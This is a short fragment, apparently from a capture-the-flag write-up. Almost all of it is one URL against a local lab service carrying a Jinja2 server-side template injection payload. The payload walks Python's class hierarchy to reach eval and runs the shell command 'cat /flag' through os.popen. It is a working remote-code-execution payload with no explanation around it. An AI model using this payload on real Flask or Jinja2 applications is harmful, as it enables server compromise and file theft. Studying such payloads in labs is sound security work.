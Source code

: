 http://127.0.0.1:32771/?name={{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat+/flag").read()')}}
